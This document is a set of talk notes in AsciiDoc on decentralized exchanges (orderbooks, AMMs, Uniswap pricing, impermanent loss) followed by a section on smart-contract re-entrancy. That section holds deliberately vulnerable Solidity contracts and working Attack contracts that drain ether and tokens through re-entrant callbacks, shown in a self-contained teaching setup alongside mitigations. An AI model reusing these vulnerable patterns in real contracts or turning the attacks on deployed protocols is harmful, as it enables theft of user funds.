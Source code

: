 [appendix]
# If I don’t have anythig to talk about

== Dexs

=== Notation

* Assume a trading pair
// $A:B$
image:imgs/adoc-math/a_inline_tex_AB_f5d15920.svg[]
.
* In TradFi (and often also in defi):
** A (first) is called _base_
** B (second) is called _quote_
** The price that 
// $A:B$
image:imgs/adoc-math/a_inline_tex_AB_7458f93c.svg[]
denotes is actually inverse, so it
represents 
// $\frac{B_0}{A_0}$
image:imgs/adoc-math/a_inline_tex_frac_986ceb00.svg[]
 for some token amounts
// $B_0$
image:imgs/adoc-math/a_inline_tex_B_0_34f68880.svg[]
,
// $A_0$
image:imgs/adoc-math/a_inline_tex_A_0_6354bc50.svg[]
.
** E.g. a famous currency pair is
// $EUR:USD$
image:imgs/adoc-math/a_inline_tex_EURU_dd460eca.svg[]
. It is currently
1.07, so for example:
***
// $1.07=\frac{1.07}{1}$
image:imgs/adoc-math/a_inline_tex_107=_bbcbf77a.svg[]
***
// $1.07=\dfrac{2.14}{2}$
image:imgs/adoc-math/a_inline_tex_107=_c0bb0f86.svg[]
** so 
// $1.07\text{ usd} = 1\text{ eur}$
image:imgs/adoc-math/a_inline_tex_107t_3888804f.svg[]
** and 
// $2.14 \text{ usd} = 2 \text{ eur}$
image:imgs/adoc-math/a_inline_tex_214t_db32d819.svg[]
* interest sometimes called ROI (”return on investment”) or APY (”annual
percentage yield”) - this one should theoretically be adjusted for one
year, but it is common to hear things like 5% apy per month, where it
actually means 5% roi (interest) per month

=== Taxonomy

Three main types of exchanges:

* orderbook
* amms
* exotic

==== Orderbook

* `makers` post “limit orders" for either side
* `takers` post "limit" _or_ "market" orders
** limit order (exact in):
*** sell 100 EUR for at least 1.09 USD each
** or (exact out):
*** buy 109 USD for at most 1.09 USD each
** market oder (exact in):
*** sell 100 EUR for whatever price
** or (exact out)::
*** buy 109 USD for whatever price
* if there is ever a match, an order is (partially) executed and a trade
happens
* As a result, there cannot be overlapping orders
* If we plot _price_ on the x-axis and _order amount_ on the y-axis, we
get a ``depth chart'':

.Source: https://medium.com/hackernoon/depth-chart-and-its-significance-in-trading-bdbfbbd23d33
image::./assets/depth-chart.png[]

* advantages
* live
** mirrors trad fi
* disadvantages
** in some models, multiple takers could be fighting for the same order
→ high gas costs & no guarantee your transaction will succeed
** front-running, Mev
** price oracle manipulation
* examples:
** EtherDelta
** 0x

==== Amms

The topic of this talk!

==== Exotic exchanges

* E.g. Gnosis DutchX
** keeps the idea of a trading _pair_, but explores different ways of
order-posting.
** in particular, a period is composed of several phases:
*** sellers can post _sell orders_ before an _auction_ begins
*** an _auction_ begins at double the price of the closing price of the
_previous auction_ (tokens are sorted by address)
*** the price falls continuously to 0 over 24 hours
*** buyers post buy orders during this period
*** we have two quantities that are monotonically increasing:
**** the buy volume (by buyers posting buy orders)
**** the value of the buy volume (of the decreasing price of the sell
collateral)
*** as a result, at some point, they will match
*** at that point, close the auction and enable traders to claim their
user tokens
*** notice that price is the same for everyone at the end, so if you
post a buy order, you can only ever get a price better than the current
one
** designed by Martin (Ceo) & Stefan (Cto) at Gnosis, implemented by
Dominik
** never gained a lot of outside traction probably because:
*** people had to wait several hours for the auction to end, so they can
claim their user tokens
*** sellers were afraid that the auction wouldn’t close early, so the
price would be very low
*** BUT as soon as the price reached the market price, there was
arbitrage opportunity for bots
* Gnosis Exchange
** slightly different:
** split into three phases:
*** users post orders (market or limit orders)
*** when order period is up, anyone can post a _solution_ that maximizes
trading volume
**** a solution is a consistent assignment of prices to all token pairs
*** the solution that maximizes volume is accepted, proposer is rewarded
and trades are executed
** the fields involved in this are called discrete optimization and ring
trades
** currently #59 on defipulse

=== Amms

==== History

* proposed by Vitalik B. in a blogpost
* implemented by Hayden Adams as his first software project

==== Overview

* Before and after a swap,
// $k = xy = L^2$
image:imgs/adoc-math/a_inline_tex_k=xy_57ebec07.svg[]
* 
// $\begin{aligned} (x+Δx)(y+Δy) &= k = xy \\ y+Δy &= \frac{xy}{x+Δx} \\ Δy &= \frac{xy}{x+Δx}-y \\ &= \frac{xy}{x+Δx} -y\frac{x+Δx}{x+Δx}\\ &= \frac{xy-y(x+Δx)}{x+Δx} \\ &= \frac{xy-yx-yΔx}{x+Δx} \\ &= \frac{-yΔx}{x+Δx} \\\end{aligned}$
image:imgs/adoc-math/a_inline_tex_begi_c62fc84c.svg[]
* Uniswap V1:
** note that the function is called `getInput_Price_`, but it actually
returns the `amount`

[source,python]
----
# @dev Pricing function for converting between ETH and Tokens.
# @param input_amount Amount of ETH or Tokens being sold.
# @param input_reserve Amount of ETH or Tokens (input type) in exchange reserves.
# @param output_reserve Amount of ETH or Tokens (output type) in exchange reserves.
# @return Amount of ETH or Tokens bought.
@private
@constant
def getInputPrice(
    input_amount: uint256, # Δx
    input_reserve: uint256, # x
    output_reserve: uint256 # y
) -> uint256: # Δy
    assert input_reserve > 0 and output_reserve > 0
    input_amount_with_fee: uint256 = input_amount * 997
    numerator: uint256 = input_amount_with_fee * output_reserve # Δx * y
    denominator: uint256 = (input_reserve * 1000) + input_amount_with_fee # x + Δx
    return numerator / denominator # Δy = (Δx * y) / (x + Δx)
----

* derivation of fee:
* 
// $\begin{aligned} \frac{-yΔx}{x+Δx} \quad &≈ \frac{-y(\frac{997}{1000}Δx)}{x+(\frac{997}{1000}Δx)} \quad \Big| * \frac{1000}{1000}\\ \quad &= \frac{-y(997Δx)}{1000x+997Δx}\end{aligned}$
image:imgs/adoc-math/a_inline_tex_begi_9f90f2f1.svg[]

.Source: https://www.coindesk.com/learn/2021/08/20/what-is-an-automated-market-maker/
image::./assets/amm.webp[]

* slope (gradient) of curve is
// $frac{\Delta y}{\Delta x}$
image:imgs/adoc-math/a_inline_tex_frac_01dc0751.svg[]
and can be thought of as the current price

==== Impermanent loss

* Suppose the market price
// $P_m$
image:imgs/adoc-math/a_inline_tex_P_m_f7d259b2.svg[]
is different from the Amm
price
// $P = \frac{y}{x}$
image:imgs/adoc-math/a_inline_tex_P=fr_99f54c40.svg[]
.
* Bots have an incentive to make arbitrage profit.

*Theory*

* Suppose Alice is an LP in an 
// $X:Y$
image:imgs/adoc-math/a_inline_tex_XY_a177ffe1.svg[]
 Amm with initial
reserves (stocks)
// $x, y$
image:imgs/adoc-math/a_inline_tex_xy_539134f9.svg[]
.
**
// $Y$
image:imgs/adoc-math/a_inline_tex_Y_5d99129c.svg[]
is the quote tokens
* Suppose she has `s` share of the total supply, when the market price
changes
* If she held only 
// $X$,
image:imgs/adoc-math/a_inline_tex_X_dc90d250.svg[]
she would have
**
// $2sxP_m$
image:imgs/adoc-math/a_inline_tex_2sxP_0c731854.svg[]
* If she held only
// $Y$
image:imgs/adoc-math/a_inline_tex_Y_75b26376.svg[]
, she would have
**
// $2sy$
image:imgs/adoc-math/a_inline_tex_2sy_63db4f6a.svg[]
* on average, she would have
** 
// $sxP_m + sy$
image:imgs/adoc-math/a_inline_tex_sxP__4e976252.svg[]
* However, if she tokens in an Amm:
** 
// $\begin{aligned}xy&=x_1y_1 \\ &= \frac{y_1}{P_m}y_1 \\ &= \frac{y_1^2}{P_m}\end{aligned}$
image:imgs/adoc-math/a_inline_tex_begi_317957bd.svg[]
** 
// $\sqrt{xyP_m}=y_1$
image:imgs/adoc-math/a_inline_tex_sqrt_d1f42f24.svg[]
** hence she would have 
// $s \sqrt{xyP_m}$
image:imgs/adoc-math/a_inline_tex_ssqr_2b1ed484.svg[]
of 
[$Y$
** she would have the same value of
// $X$
image:imgs/adoc-math/a_inline_tex_X_82a010b5.svg[]
 tokens
** hence she would have
*** 
// $2s\sqrt{P_mxy}$
image:imgs/adoc-math/a_inline_tex_2ssq_44102ea1.svg[]
* We have
** 
// $\frac{xP_m + y}{2}>=\sqrt{P_mxy}$
image:imgs/adoc-math/a_inline_tex_frac_6479717f.svg[]
(Arithmetic-Geometric
mean for 2 variables)
* with equality iff
// $xP_m = y$
image:imgs/adoc-math/a_inline_tex_xP_m_a9c6a835.svg[]
, or
// $P_m=P$
image:imgs/adoc-math/a_inline_tex_P_m=_0697ea10.svg[]
* Hence Amms are not good for assets that have an expected tendency to
go up or down
* Furthermore, the fees in Amms need to cover `impermanent loss' for it
to offer a good roi

==== Taxonomy

* generic
** uniswap v1, v2, v3
* specialized
** for trading stablecoins
*** curve v1, v2
** for trading options
*** the issue with options is that they _decay_ over time as we approach
the expiry date and there is less expected volatility, so their price is
expected to go down over time, so generic Amms would provide too much
impermanent loss.
*** examples:
**** siren
**** opyn

==== Why are Amms not used in trad fi?

* Amms require a lot of stock, and large stock requires a lot of trust
to place such large volume onto an exchange

==== Difference between major Amms:

* Uniswap v1
** Vyper
** No reliable price oracle
** eth to token
** .transferFrom pattern
* Uniswap v2
** Vyper → Solidity
** `exchange` → `Pair`
** token to token pairs
** Better price oracle
** Uses .transfer, .swap pattern
* Uniswap v3
** `Pair` → `Pool`
** Can post orders that are only active in a certain price range
** Better price oracle
** Uses .callback patern
** Originally Amms were thought to be great for beginner / retail
(non-professional) traders
*** since you can just put money and it accrues passive income
*** however with Uv3, Amms became as difficult as Orderbooks
**** if your range is too low or too high, you won’t get any fees
**** if you range is too wide, you may have an opportunity cost (i.e.,
not making as much ROI as you would by having a narrower range)
* Balancer v1
** Extends
// $xy = k$
image:imgs/adoc-math/a_inline_tex_xy=k_3ede71dc.svg[]
to 
// $x_0x_1...x_n=k$
image:imgs/adoc-math/a_inline_tex_x_0x_a19aeed1.svg[]
* Balance v2
** Not sure
* Curve v1
** ``Damping factor'' around price 1
** There is a whitepaper where they acutally call it ``Stableswap''

.Source: https://atulagarwal.dev/posts/curveamm/stableswap/
image::./assets/curve.png[]

* Curve v2
** Not sure

== Re-entrancy attacks

=== Overview

____
A re-entrancy vulnerability might occur when an external call separates
two code blocks, and somewhere on the network there is code that is
contingent on both blocks executing without interruption.
____

____
A special case of this is when the re-entrancy is the same function.
However, it could be a different function, or a different contract, or
even a different protocol altogether. Whenever there exists logic on the
network that is contingent on the second code block, it could be
possible to utilize a code injection to violate their atomicity.
____

____
One way to prevent re-entrancies is to use the
checks-effects-interactions pattern. However, this is not always
possible. A function’s semantics may include:

* state mutations to the current contract based on external
interactions,
* multiple external interactions (code elsewhere may depend the
atomicity of these multiple interactions).
____

____
Another way to protect against reentrancies is by introducing a
re-entrancy lock. A re-entrancy lock will only work if:
____

____
[arabic]
. It protects _all_ public entrypoints of a contract. It is not enough
to protect just _publicly-accessible_ functions. An `onlyOwner` function
may, for example, transfer tokens, and those may call callbacks. If that
is the case, the atomicity of `onlyOwner` function may be violated.
. It protects _all_ public entrypoints of _all_ contracts. Other modules
may rely on the contract’s state. If an attacker calls these modules,
they may perform a _dirty read_.
. The lock can be read by _any_ network contract. Similarly, other
projects may rely on the contract’s state.
____

____
Note that it is only necessary to protect mutating functions. View
functions might give incorrect results if injected, but they will be
relevant only if called by a function that is non-view.
____

=== Taxonomy: by type of asset that gives rise to new execution context

* no asset
** e.g. when you just do a message call
* ether (The DAO)
* tokens
** malicious tokens (provided as user input)
*** e.g. Origin Protocol hack
** benevolent tokens
*** can be categorized:
**** provided by user or admin
**** external tokens or native tokens
*** have to be ``callback'' tokens - ERC 223, 721 (nft), 777, 1155
*** e.g. Uniswap V1 http://lendf.me[lendf.me] hack
*** Siren ERC1155 hack

=== Taxonomy: by what gets called in the re-entrancy:

* same function
* same contract
* different contract

=== Best way to protect against re-entrancies

System-wide re-entrancy lock:

____
Add a system-wide re-entrancy lock in AddressesProvider by declaring a
state variable representing a lock. When any mutating function in the
system is called, there will be a switch on the caller (`msg.sender`):

* if it is any contract in the system, the call will proceed,
* if it is not and the lock has been acquired, the call will revert,
* if it is not any contract in the system and the lock has not been
acquired, it will be acquired.
____

____
This will ensure the project is resilient against the re-entrancy
attacks outlined above.
____

=== Example 1: Ether

[source,solidity]
----
contract C {
    mapping (address => uint) public balances;

    event LogUint(string s, uint x);

    constructor() payable {
        // this is just for ease of demonstration
        assert (msg.value == 9 ether); // ether is a scalar quantity, 1 ether == 1e18.
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        emit LogUint("C.withdraw: balances[msg.sender]", balances[msg.sender]);
        (bool success,) = msg.sender.call{value: balances[msg.sender]}("");
        require(success);
        emit LogUint("C.withdraw: address(this).balance", address(this).balance);
        balances[msg.sender] = 0;
    }
}

contract Attack {
    C public c;

    event LogUint(string s, uint x);

    constructor() payable {
        assert (msg.value == 10 ether);
        // This would normally be deployed somewhere else,
        // but adding it here for simplicity.
        c = new C{value: 9 ether}();
    }

    function run() public {
        c.deposit{value: 1 ether}();
        c.withdraw();
        emit LogUint("Attack.run: address(this).balance", address(this).balance);
    }

    receive() payable external {
        if (gasleft() >= 40000 && address(c).balance >= 1 ether) {
            c.withdraw();
        }
    }
}
----

=== Example 2: Tokens

image::./assets/weekly-token-reentrancy.png

==== Setup:

* each pool has 100 tokens
* attacker has 10 tokens of each

==== Benevolent:

* get 9.0̅9̅ token1 for 10 token0
* get 8.26 token1 for 10 token2


// $$
// \begin{aligned}\Delta y &= \frac{-100*10}{100+10} \\ &= \frac{-1000}{110} \\ &= -9.\bar{09}\end{aligned}
// $$
image::imgs/adoc-math/b_block_tex_begi_eba31137.svg[align=center]


// $$
// \begin{aligned} \Delta y &= \frac{-90.\bar{90}*10}{100+10} \\ &= \frac{-909.\bar{09}}{110} \\ &\approx -8.26 \end{aligned}
// $$
image::imgs/adoc-math/b_block_tex_begi_50e6c4b1.svg[align=center]

==== Malicious:

* first swap 10 token0 for 9.0̅9̅ token1
* re-enter after 10 token0 have been moved, but before 9.0̅9̅ token1 have
been moved
* hence pair12 still sees balances as (100, 100), and we can get 9.0̅9̅
token1 again for 10 token2

[source,solidity]
----
pragma solidity 0.8.12;

interface IReceiver {
    // function receiveTokens(address from, uint amount) external;
    function tokensTransferred(address to, uint amount) external;
}

contract Token {
    mapping (address => uint256) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    event Transfer(address from, address to, uint256 amount);
    event LogBool(string s, bool x);

    constructor() {
        balanceOf[msg.sender] = 110e18;
    }

    function transfer(address to, uint256 amount) public {
        // Effects
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        // note: all these are equivalent (yes, I tested it in Remix).
        // bytes memory b = abi.encodeWithSelector(IReceiver.receiveTokens.selector, msg.sender, amount);
        // bytes memory b = abi.encodeWithSignature("receiveTokens(address,uint256)", msg.sender, amount);
        // bytes memory b = concat(
        //     abi.encodePacked(bytes4(IReceiver.receiveTokens.selector)),
        //     abi.encode(msg.sender, amount)
        // );
        emit Transfer(msg.sender, to, amount / 1e18);
        // Interactions
        // bytes memory b = abi.encodeCall(IReceiver.tokensTransferred, (to, amount));
        // For external accounts `to`, this will silently succeed anyway
        // For contracts `to`, don't require that they implement `receiveTokens` (and not throw).
        // (bool success,) = to.call(b);
    }

    function approve(address spender, uint amount) public {
        allowance[msg.sender][spender] = amount;
    }

    function transferFrom(address from, address to, uint amount) public {
        // Effects
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        emit Transfer(from, to, amount / 1e18);
        // Interactions
        bytes memory b = abi.encodeCall(IReceiver.tokensTransferred, (to, amount));
        emit LogBool("Token.transferFrom: calling from", true);
        (bool success,) = from.call(b);
        emit LogBool("Token.transferFrom: after call, success", success);
    }

    function concat(bytes memory b1, bytes memory b2) public pure returns (bytes memory) {
        return abi.encodePacked(b1, b2);
    }
}

contract Pool {
    Token public token;
    address public d;

    modifier onlyD() {
        if (msg.sender != d) revert("You shall not enter");
        _;
    }

    constructor(Token _token) {
        token = _token;
        d = msg.sender;
    }

    function setMaxPossibleApproval(address pair) public onlyD {
        token.approve(pair, type(uint).max);
    }
}

contract Pair {
    Pool   public pool0;
    Pool   public pool1;
    string public meme;
    bool   public reentered; // = false

    event LogUint(string s, uint x);

    modifier reentrancyGuard() {
        if (reentered) revert("You shall not enter");
        reentered = true;
        _;
        reentered = false;
    }
    constructor(
        Pool _pool0,
        Pool _pool1
    ) {
        pool0 = _pool0;
        pool1 = _pool1;
    }

    function swap(
        uint256 amountFromUser,
        bool token1ForUser
    ) public reentrancyGuard {
        emit LogUint("Pair.swap called: amountFromUser", amountFromUser / 1e18);
        // Checks
        Pool pool_to_user     = token1ForUser ? pool1 : pool0;
        Pool pool_from_user   = token1ForUser ? pool0 : pool1;
        Token token_to_user   = pool_to_user.token();
        Token token_from_user = pool_from_user.token();
        uint amount_to_user   = getDeltaY(
            /*      x = */ token_from_user.balanceOf(address(pool_from_user)),
            /*      y = */ token_to_user  .balanceOf(address(pool_to_user  )),
            /* deltaX = */ amountFromUser
        );
        // Interactions
        token_from_user.transferFrom(
            /*   from = */ msg.sender,
            /*     to = */ address(pool_from_user),
            /* amount = */ amountFromUser
        );
        token_to_user.transferFrom(
            /*   from = */ address(pool_to_user),
            /*     to = */ msg.sender,
            /* amount = */ amount_to_user
        );
        emit LogUint("Pair.swap exiting: amount_to_user", amount_to_user / 1e18);
    }

    /// We have:
    /// Δy = (-yΔx)/(x+Δx)
    /// For full derivation, see the attached equation.
    function getDeltaY(
        uint x,
        uint y,
        uint deltaX
    ) public pure returns (uint256 deltaY) {
        uint num = y * deltaX;
        uint den = x + deltaX;
        deltaY = num / den;
    }

}

contract Deploy {
    Token  public token0;
    Token  public token1;
    Token  public token2;
    Pool  public pool0;
    Pool  public pool1;
    Pool  public pool2;
    Pair  public pair01;
    Pair  public pair12;

    constructor() {
        token0 = new Token();
        token1 = new Token();
        token2 = new Token();
    
        token0.transfer(msg.sender, 10e18);
        token1.transfer(msg.sender, 10e18);
        token2.transfer(msg.sender, 10e18);
    
        pool0  = new Pool(token0);
        pool1  = new Pool(token1);
        pool2  = new Pool(token2);

        token0.transfer(address(pool0), 100e18);
        token1.transfer(address(pool1), 100e18);
        token2.transfer(address(pool2), 100e18);
    
        pair01 = new Pair(pool0, pool1);
        pair12 = new Pair(pool1, pool2);

        pool0.setMaxPossibleApproval(address(pair01));
        pool1.setMaxPossibleApproval(address(pair01));
        pool1.setMaxPossibleApproval(address(pair12));
        pool2.setMaxPossibleApproval(address(pair12));
    }
}
----

[source,solidity]
----
contract Attack {
    Deploy public d;

    event LogUint(string s, uint x);
    event LogAddress(string s, address a);

    constructor() {
        d = new Deploy();
        // Each pool has 100 tokens, user (attacker) has 10 tokens of each 
    }

    function run_benevolent() public {
        log_addresses_in_system();
        d.token0().approve(address(d.pair01()), 10e18);
        d.pair01().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ true
        );
        //      token0.balanceOf(this)  ==   0            (10 less)
        //      token0.balanceOf(pool0) == 110            (10 more)
        // 19 < token1.balanceOf(this)   <  20          (9.0̅9̅ more)
        // 90 < token1.balanceOf(pool1)  <  91          (9.0̅9̅ less)
        assert(d.token0().balanceOf(address(d.pool0())) == 110e18);
        assert(d.token0().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  90e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  91e18);
        assert(d.token1().balanceOf(address(this))       >  19e18);
        assert(d.token1().balanceOf(address(this))       <  20e18);

        // -------------------------------------------------------

        d.token2().approve(address(d.pair12()), 10e18);
        d.pair12().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ false
        );

        //      token2.balanceOf(this)  ==   0            (10 less)
        //      token2.balanceOf(pool0) == 110            (10 more)
        // 27 < token1.balanceOf(this)   <  28          (8.26 more)
        // 82 < token1.balanceOf(pool1)  <  83          (8.26 less)
        assert(d.token2().balanceOf(address(d.pool2())) == 110e18);
        assert(d.token2().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  82e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  83e18);
        assert(d.token1().balanceOf(address(this))       >  27e18);
        assert(d.token1().balanceOf(address(this))       <  28e18);
    }

    function run_malicious() public {
        log_addresses_in_system();
        d.token0().approve(address(d.pair01()), 10e18);
        d.pair01().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ true
            // Re-entrancy occurs here
        );

        //      token0.balanceOf(this)  ==   0            (10 less)
        //      token0.balanceOf(pool0) == 110            (10 more)
        //      token2.balanceOf(this)  ==   0            (10 less)
        //      token2.balanceOf(pool0) == 110            (10 more)
        // 28 < token1.balanceOf(this)   <  29          (18.1̅8̅ more)
        // 81 < token1.balanceOf(pool1)  <  82          (18.1̅8̅ less)
        assert(d.token0().balanceOf(address(d.pool0())) == 110e18);
        assert(d.token0().balanceOf(address(this))      ==      0);
        assert(d.token2().balanceOf(address(d.pool2())) == 110e18);
        assert(d.token2().balanceOf(address(this))      ==      0);
        assert(d.token1().balanceOf(address(d.pool1()))  >  81e18);
        assert(d.token1().balanceOf(address(d.pool1()))  <  82e18);
        assert(d.token1().balanceOf(address(this))       >  28e18);
        assert(d.token1().balanceOf(address(this))       <  29e18);
    }

    function log_addresses_in_system() public {
        emit LogAddress("attack", address(this));
        emit LogAddress("deploy", address(d));
        emit LogAddress("token0", address(d.token0()));
        emit LogAddress("token1", address(d.token1()));
        emit LogAddress("token2", address(d.token2()));
        emit LogAddress("pool0",  address(d.pool0()));
        emit LogAddress("pool1",  address(d.pool1()));
        emit LogAddress("pool2",  address(d.pool2()));
        emit LogAddress("pair01", address(d.pair01()));
        emit LogAddress("pair12", address(d.pair12()));
    }

    function tokensTransferred(address to, uint amount) public {
        emit LogUint("tokensTransferred called: amount", amount / 1e18);
        d.token2().approve(address(d.pair12()), 10e18);
        d.pair12().swap(
            /*        amount = */ 10e18,
            /* token1ForUser = */ false
        );
    }
}
----
